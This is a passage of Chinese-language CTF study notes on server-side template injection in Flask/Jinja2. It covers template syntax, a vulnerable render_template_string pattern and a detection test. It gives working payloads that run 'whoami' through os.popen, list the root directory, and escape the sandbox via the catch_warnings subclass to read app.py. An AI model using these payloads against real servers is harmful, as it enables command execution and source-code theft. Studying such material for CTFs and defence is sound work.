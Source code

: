 ```Python
            stdout=subprocess.PIPE,  # 捕获标准输出
            stderr=subprocess.PIPE)  # 捕获标准错误
print(result.stdout.decode())  # 显示 cat flag 命令输出
```

### SSTI模板注入

- flask框架，Server-Side Template Injection，服务端模板注入

#### Jinja2

3种语法

```jinja2
{% %} {# 控制结构 #}
{{ }} {# 变量取值 #}
```

内置函数及属性

```python
__class__ # 调用的参数类型
__bases__ # 基类列表
__subclasses__() # 子类列表
__globals__ # 字典形式返回函数所在全局命名空间所定义的全局变量
__builtins__ # 内建模块引用
```

**漏洞点**

```Python
# {{id | safe}} 中 safe 表示值直接插入到HTML中, 不做任何转义, 可造成SSTI攻击
evil = content.replace('{{id | safe}}', id) # 将模板内容中的{{id | safe}}替换为id
return render_template_string(evil) # 将替换后的字符串作为Jinja2模板渲染
```

测试是否是SSTI：`{{7 * 7}}` 是否返回 `49`或`{{7+7}}`是否返回`14`

**os模块执行命令**

```Python
{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}
# 配置对象 > 类 > 初始化构造函数 > 全局命名空间 > os.popen('whoami').read() 执行命令
```

**列举目录**

```jinja2
{# 列举目录 #}
{{ c.__init__.__globals__['__builtins__']['__import__']('os').listdir('/') }}
```

**绕沙箱读取服务器代码**

```jinja2
{# 空列表[] > list类 > 基类object > 所有object子类 #}
{% for c in [].__class__.__base__.__subclasses__() %}
   {% if c.__name__=='catch_warnings' %}
    {{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}
   {% endif %}
{% endfor %}

{# payload #}
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}{% endif %}{% endfor %}
```
